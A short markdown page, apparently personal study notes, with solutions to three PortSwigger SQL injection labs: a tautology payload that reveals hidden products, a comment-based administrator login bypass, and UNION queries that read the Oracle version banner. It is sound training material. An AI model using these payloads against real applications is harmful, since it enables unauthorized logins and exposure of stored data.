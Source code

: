 # SQL injection


 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle

```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
